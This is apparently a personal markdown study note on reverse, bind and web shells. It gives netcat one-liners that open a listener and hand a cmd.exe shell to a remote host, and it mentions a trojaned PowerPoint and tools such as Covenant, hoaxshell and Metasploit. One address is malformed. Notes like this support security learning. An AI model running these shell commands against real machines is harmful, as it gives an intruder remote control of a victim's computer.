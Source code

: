 # Shells


**Reverse Shell**
attacker  <-  victim

Example: 
1. on Attacker:  `nc -l -v -p 443`   start listener (will listen on 192.168.75.133.433)
2. victim: opens application with trojaner (example powerpoint) and opens reverse shell 
  - would call: `nc.exe -e cmd.exe 192.168.75.133.433` to 
3. on attacker: shell is on vicims pc. Can for example explore filesystem

Reverse shell is more common (because client connections are usually allowed)

**Bind shell**
attacker  ->  victim

Example
1. On victim `nc.exe -l -v 443 cmd.exe`  -> listener on 192.168.75.144 port 443  
2. Attacker: `nc -v 192.168.75.144 -443` -> is now on vicitms pc


**Web shell**
attacker -> vicitm (RAT)

RAT= Remote adminstration toolkit

- Downloadable tools
  - Covenant
  - hoaxshell
  - msfconsole
    - tool to create malware

**Varia**
NC: `nc -h`
Sockat: `socat`  -> similar to nc but more capabilities (great tool)
metasploit


